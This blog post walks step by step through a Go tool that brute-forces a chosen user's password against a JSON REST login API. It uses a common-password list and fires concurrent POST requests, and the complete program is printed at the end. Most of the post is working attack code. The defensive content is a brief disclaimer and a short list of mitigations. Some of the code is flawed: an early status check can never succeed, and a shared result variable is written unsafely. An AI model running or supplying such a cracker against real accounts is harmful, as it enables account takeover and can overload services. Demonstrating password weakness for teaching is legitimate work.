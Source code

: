 ```yaml
---
title: "Creating a Brute Force REST API Password Cracker"
date: 2018-06-24T07:49:00-04:00
draft: false
keywords:
- golang
- security
- password cracker
---
```


# Golang Password Cracker

### Disclaimer
All views and opinions expressed in this document are my own and not indicative of my employer's viewpoints in any regard. Furthermore, this exercise is intended to demonstrate the need for more robust passwords. The created program should not be used for anything malicious.

### Password Security & Best Practices
[Krebs Take](https://krebsonsecurity.com/password-dos-and-donts/)

I'm sure we've all seen user accounts with shoddy passwords, to demonstrate how easy it is to gain access to these accounts let's see if we can brute force their passwords.

First things first, we need a password list, so let's grab [one](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-10000.txt)

Now we need to build a program that makes a POST request to a JSON REST API. Ideally, we would pass in the username we want to target, and the url of the application so we can test out multiple platforms.

To build this program, let's use Golang because it's simple, fast, and excels in concurrency which will enable to make all the requests in parallel.

### Steps
1. Download Golang [mac](https://golang.org/doc/install?download=go1.10.1.darwin-amd64.pkg)
1. Create a folder in your golang directory (wherever you specified it) called `golang-brute-password`
1. Move the password file to the folder, call it `passwords.txt`
1. Create file main.go with the following
  
   ``` 
   package main

   func main(){
      fmt.Println("HELLO WORLD")
   }
   ```
1. run `go run main.go` -> you should see "HELLO WORLD" in the console
1. Let's create a function to read in the passwords and return an array of passwords. This should do:

   ```
      // readInPasswords, reads in the passwords file and returns a slice of strings (array of strings)
      func readInPasswords(passwordFile string) []string {
         b, err := ioutil.ReadFile(passwordFile) // just pass the file name
         if err != nil {
            fmt.Println(err)
         }
         str := string(b) // convert content to a 'string'

         return strings.Split(str, "\n")
      }
   ```
1. Now we need a function to actually make the POST request to the specified url. Try this:
   
   ```
   // postToURL
   // Succeeded = true if res.status == 200
   func postToURL(url string, username string, password string) (succeeded bool) {
      fmt.Println("password: ", password)
      values := map[string]string{"username": username, "email": username, "password": password}

      jsonValue, _ := json.Marshal(values)

      resp, err := http.Post(url, "application/json", bytes.NewBuffer(jsonValue))
      if err != nil {
         fmt.Println("Error occured: ", err)
         return false
      }
      defer resp.Body.Close()
      fmt.Println("Response status: ", resp.Status)
      var body interface{}
      json.NewDecoder(resp.Body).Decode(&body)
      fmt.Println(body)
      return resp.Status == "200"
   }

   ```
1. Now let's grab the url and username to target from the program arguments

   ```
   if len(os.Args) != 3 {
         log.Fatal("Please url to post and username")
      }
      url := os.Args[1]
      username := os.Args[2]
      passwords := readInPasswords("passwords.txt")
   ```
1. Now let's use a simple for loop to make the requests
   ```

      // one after another
      // for _, password := range passwords {
      // 	fmt.Println("password is: ", password)

      // 	if postToURL(url, username, password) {
      // 		fmt.Println("password is: ", password)
      // 	}
      // }
   ```
1. That's slow as hell, let's do it concurrently
   ```
      var wg sync.WaitGroup
      wg.Add(len(passwords))
      foundPassword := ""
      for _, password := range passwords {
         go func(password string) {
            defer wg.Done()
            fmt.Println("password is: ", password)
            if postToURL(url, username, password) {
               foundPassword = password
               fmt.Println("password is: ", password)
            }
         }(password)
      }

      wg.Wait() // wait until the for loop finishes
      fmt.Println("found password is: ", foundPassword)
   ```

1. Now we should be able to iterate through the password list in under 4-5 seconds... Wow..
1. How could we fix this and prevent users from weak passwords from being vulnerable to this attack?
      - Lock account after 5 failed login attempts. Need to contact an admin or re-verify your email.
      - Require the user fill out a Recaptcha on login.
      - Enforce strict password requirements. 8 characters + and 2 complexity cases
1. By processing each request or rate limiting the client, a server makes itself exceptionally vulnerable to DDOS. For those who don't know Krebs did a great writeup on DDOS [here](https://krebsonsecurity.com/tag/ddos/).

## Ps. our final program should look like this:

```
package main

import (
	"bytes"
	"encoding/json"
	"fmt"
	"io/ioutil"
	"log"
	"net/http"
	"os"
	"strings"
	"sync"
)

/*Main
 * Requires the url, port, and username to be sent as environment variables
 * Makes a POST request to the url with fields username, email, and password
 * Username and email values are set to the value provided in the program argument
 * Password values are taken from the passwords.txt file
 * All requests are JSON content type
 */
func main() {
	if len(os.Args) != 3 {
		log.Fatal("Please provide url and username")
	}
	url := os.Args[1]
	username := os.Args[2]
	passwords := readInPasswords("passwords.txt")

	// multithreaded solution
	var wg sync.WaitGroup
	wg.Add(len(passwords))
	foundPassword := ""
	for _, password := range passwords {
		go func(password string) {
			defer wg.Done()
			if postToURL(url, username, password) {
				foundPassword = password
			}
		}(password)
	}

	wg.Wait() // wait until the for loop finishes
	fmt.Println("found password is: ", foundPassword)
}

// readInPasswords, reads in the passwords file and returns a slice of strings (array of strings)
func readInPasswords(passwordFile string) []string {
	b, err := ioutil.ReadFile(passwordFile) // just pass the file name
	if err != nil {
		fmt.Println(err)
	}
	str := string(b) // convert content to a 'string'

	return strings.Split(str, "\n")
}

// postToURL
// Succeeded = true if res.status == 200
func postToURL(url string, username string, password string) (succeeded bool) {
	values := map[string]string{"username": username, "email": username, "password": password}

	jsonValue, _ := json.Marshal(values)

	resp, err := http.Post(url, "application/json", bytes.NewBuffer(jsonValue))
	if err != nil {
		fmt.Println("Error occured: ", err)
		return false
	}
	defer resp.Body.Close()
	if resp.StatusCode == 200 {
		fmt.Println("Response status: ", resp.Status)
		var body interface{}
		json.NewDecoder(resp.Body).Decode(&body)
		fmt.Println(body)
	}
	return resp.StatusCode == 200
}

```


